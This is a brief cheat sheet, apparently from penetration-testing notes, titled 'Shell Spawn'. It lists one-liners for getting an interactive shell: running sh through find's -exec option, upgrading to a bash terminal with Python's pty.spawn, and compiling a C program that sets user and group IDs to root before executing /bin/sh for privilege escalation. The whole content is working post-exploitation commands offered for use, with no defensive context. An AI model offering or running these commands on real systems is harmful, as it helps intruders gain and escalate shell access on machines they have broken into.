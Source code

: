 = Shell Spawn

== Commands

`$ find . -exec sh -i \;`
`$ python -c ‘import pty;pty.spawn(“/bin/bash”);’`

== Programs

=== C

`$ echo "int main(void){setgid(0);setuid(0);execl(\"/bin/sh\",\"sh\",0);}" > rootme.c && gcc rootme.c -o rootme`